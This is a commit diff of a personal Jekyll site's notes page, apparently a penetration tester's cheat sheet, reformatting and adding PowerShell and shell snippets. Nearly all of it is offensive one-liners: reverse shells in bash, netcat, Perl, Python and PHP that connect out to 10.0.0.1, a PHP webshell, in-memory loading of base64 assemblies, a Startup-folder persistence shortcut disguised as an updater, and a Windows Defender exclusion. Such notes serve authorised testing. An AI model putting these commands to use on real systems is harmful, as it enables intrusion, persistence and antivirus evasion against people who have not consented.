

Before and after one commit to mcorybillington/mcorybillington.github.io, a Jekyll site: the page built from _pages/notes.md, in a window 1280 px wide and 900 px high, scrolled down 3231 px. Shown: the whole window, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Quote snippets so no sliders, add new pwsh command

````diff
--- a/_pages/notes.md
+++ b/_pages/notes.md
@@ -37,71 +37,77 @@ author_profile: true
   - [Wireless](#wireless)
   - [Tools](#tools)
 
-## Powershell
+## Powershell/AD
 ### One liner run command as another user
-```
-$secpasswd = ConvertTo-SecureString "xxxxx" -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential("DOMAIN\USER", $secpasswd); Invoke-Command -ComputerName re -Credential $creds -ScriptBlock {c:\path\to\cmd.exe 10.10.10.1 9003 -e cmd}
-```
+
+> ```$secpasswd = ConvertTo-SecureString "xxxxx" -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential("DOMAIN\USER", $secpasswd); Invoke-Command -ComputerName re -Credential $creds -ScriptBlock {c:\path\to\cmd.exe 10.10.10.1 9003 -e cmd}```
+
 ### One liner to execute base64 encoded assembly
-```
-[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String(<base64-str-here>)).EntryPoint.Invoke($null,@(,([string[]](""))))
-```
+
+> ```[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String(<base64-str-here>)).EntryPoint.Invoke($null,@(,([string[]](""))))```
+
 ### Run arbitrary assembly
-```
-$as.EntryPoint.Invoke($null, @(,[string[]]("arg1", "arg2", "etc")))
-```
+
+> ```$as.EntryPoint.Invoke($null, @(,[string[]]("arg1", "arg2", "etc")))```
+
 ### Download file
-```
-iwr -Uri <url> -OutFile <name>
-```
+
+> ```iwr -Uri <url> -OutFile <name>```
+
 ### Powershell-friendly base64 from Linux
-```
-echo -n '<text>' | iconv -f UTF8 -t UTF16LE | base64
-```
+
+> ```echo -n '<text>' | iconv -f UTF8 -t UTF16LE | base64```
+
 ### Base64 encode file
-```
-[Convert]::ToBase64String([IO.File]::ReadAllBytes(<file-path>))
-```
+
+> ```[Convert]::ToBase64String([IO.File]::ReadAllBytes(<file-path>))```
+
 ### Create a shortcut lnk one-liner
-```
-$Shortcut = (New-Object -comObject WScript.Shell).CreateShortcut("C:\users\<user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\updater.lnk"); $Shortcut.TargetPath = "C:\users\<user>\AppData\updater2.exe";$Shortcut.Save()
-```
+
+> ```$Shortcut = (New-Object -comObject WScript.Shell).CreateShortcut("C:\users\<user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\updater.lnk"); $Shortcut.TargetPath = "C:\users\<user>\AppData\updater2.exe";$Shortcut.Save()```
+
 ### Create a Windows Defender exclusion
-```
-Add-MpPreference -ExclusionPath "C:\users\lolcats\AppData\mysketchdir"
-```
+
+> ```Add-MpPreference -ExclusionPath "C:\users\lolcats\AppData\mysketchdir"```
+
+### Get computers in AD without AD cmdlets
+
+> ```([adsi]"WinNT://$((Get-WMIObject Win32_ComputerSystem).Domain)").Children | Where-Object {$_.schemaclassname -eq 'computer'}```
+
+
 ## Shells
 ### Upgrade to PTY
 Python
-```
-python -c 'import pty;pty.spawn("/bin/bash");'
-```
+
+> ```python -c 'import pty;pty.spawn("/bin/bash");'```
+
 Python 3
-```
-python3 -c 'import pty;pty.spawn("/bin/bash");'
-```
+
+> ```python3 -c 'import pty;pty.spawn("/bin/bash");'```
+
+
 ### Bash
 Regular
-```
-bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
-```
+
+> ```bash -i >& /dev/tcp/10.0.0.1/8888 0>&1```
+
 Background process
-```
-bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'
-```
+
+> ```bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'```
+
 ### nc no e
-```
-rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444
-```
+
+> ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444```
+
 ### Perl
-```
-perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
-```
+
+> ```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```
+
 ### Python
 One Liner
-```
-python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
-```
+
+> ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
+
 In a script
 
 ```
@@ -118,13 +124,11 @@ p = subprocess.call(["/bin/sh","-i"])
 ```
 ### PHP
 Webshell
-```
-<?php echo system($_GET['cmd']); ?>
-```
+> ```<?php echo system($_GET['cmd']); ?>```
+
 Bash reverse shell
-```
-<?php system(bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'); ?>
-```
+
+> ```<?php system(bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'); ?>```
 
 ### Sites/Cheat sheets
 #### PayloadsAllTheThings
````
